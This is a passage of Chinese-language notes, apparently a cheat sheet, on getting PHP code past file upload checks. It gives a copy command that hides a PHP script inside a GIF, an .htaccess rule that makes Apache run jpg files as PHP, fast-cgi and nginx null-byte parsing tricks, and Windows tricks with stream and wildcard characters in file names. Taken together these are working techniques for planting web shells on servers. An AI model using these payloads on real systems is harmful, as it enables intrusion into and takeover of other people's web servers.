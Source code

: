 ```cmd
copy 1.gif/b+moon.php tk.php
```

### 2、程序逻辑出错

双文件上传(jpg、php)
空格文件上传

### 3、部署环境

apache开启重写模块

```
LoadModule rewrite_module modules/mod_rewrite.so
```

重写解析  .htaccess

```html
<FilesMatch "jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

上传.htaccess后，会将jpg解析为php

### 4、配置错误  1.jpg/.php

iis7.0|iis7.5|nginx 开启fast-cgi

### 5、漏洞

nginx 0.83
/1.jpg%00php

### 6、系统特性（绕过一些防火墙）

上传文件名a.php:.jpg的时候，会在目录下生成a.php的空白文件 
php+window+iis
利用PHP 和 Windows环境的叠加特性，以下符号在正则匹配时的相等性：

- 双引号"   =  点号.

- 大于符号>  =  问号?

- 小于符号<  =  星号*

- 文件名 .< 或文件名 .<<<或文件名 .>>> 或文件名 .>>< 空文件名

- 写入filename .<<<
